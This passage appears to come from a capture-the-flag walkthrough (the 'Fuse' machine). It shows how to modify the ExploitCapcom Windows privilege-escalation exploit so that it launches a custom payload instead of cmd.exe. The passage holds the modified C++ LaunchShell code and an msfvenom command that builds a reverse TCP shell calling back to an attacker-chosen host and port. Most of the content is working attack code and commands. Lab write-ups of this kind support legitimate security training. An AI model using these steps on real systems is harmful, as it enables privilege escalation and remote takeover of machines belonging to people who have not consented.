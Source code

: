 
#### Modifying ExploitCapcom exploit to enable a reverse shell {#modifying-exploitcapcom-exploit-to-enable-a-reverse-shell}

To make our exploit more useful, we'll modify it to give us a reverse shell instead of just opening a new command prompt.

-   **Open** `ExploitCapcom.cpp` **and do not remove the** `stdafx.h` **import**:
    -   The reason being is the actual required file containing the header is in this project. So you can compile with it.
        -   {{< figure src="/ox-hugo/2024-10-18-125040_.png" >}}

-   **This exploit by default opens a new elevated shell, however this requires we have** `GUI` **access. So modify to run a reverse shell**:
    -   Below is the code we are going to modify:
        -   `TCHAR CommandLine[] = TEXT("C:\\Windows\\system32\\cmd.exe");`
    -   Modify it to run a reverse shell generated via `msfvenom`:

        -   Remember if you are not using the Fuse walkthrough to modify the path to one you have access to.

        <!--listend-->

        ```C++
          // Launches a command shell process
          static bool LaunchShell()
          {
              //Original Line Commented Out:
              //TCHAR CommandLine[] = TEXT("C:\\Windows\\system32\\cmd.exe");
              TCHAR CommandLine[] = TEXT("C:\\Users\\svc-print\\Documents\\shell.exe");
              PROCESS_INFORMATION ProcessInfo;
              STARTUPINFO StartupInfo = { sizeof(StartupInfo) };
              if (!CreateProcess(CommandLine, CommandLine, nullptr, nullptr, FALSE,
                  CREATE_NEW_CONSOLE, nullptr, nullptr, &StartupInfo,
                  &ProcessInfo))
              {
                  return false;
              }

              CloseHandle(ProcessInfo.hThread);
              CloseHandle(ProcessInfo.hProcess);
              return true;
          }
        ```

-   **Compile it**:
    -   {{< figure src="/ox-hugo/2024-10-18-125121_.png" >}}


#### Generating our reverse-shell payload using msfvenom: {#generating-our-reverse-shell-payload-using-msfvenom}

-   **Generate a simple reverse shell using** `msfvenom`:
    -   `msfvenom -p windows/x64/shell_reverse_tcp LHOST=[AttackIP] LPORT=[AttackPort] -f exe -o shell.exe`
    -   {{< figure src="/ox-hugo/2024-10-18-143546_.png" >}}
